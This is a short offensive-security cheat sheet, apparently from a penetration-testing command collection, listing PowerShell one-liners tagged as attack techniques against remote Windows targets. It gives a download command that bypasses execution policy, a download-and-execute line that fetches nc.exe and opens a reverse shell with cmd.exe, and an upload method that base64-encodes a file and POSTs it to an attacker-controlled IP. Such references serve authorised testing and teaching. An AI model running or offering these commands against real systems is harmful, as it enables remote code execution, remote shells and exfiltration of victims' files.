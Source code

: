 # powershell

% powershell, download

## Download with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## Download and execute with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile New-Object System.Net.WebClient.DownloadFile('<url_file>','nc.exe'); nc.exe <ip> <port> -e cmd.exe
```


## Upload with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
certutil -encode <infile> <outfile>
```powershell
$base64str = Get-Content <b64-file> && Invoke-RestMethod -Uri http://<ip>:<port>/ -Method POST -Body $base64str
```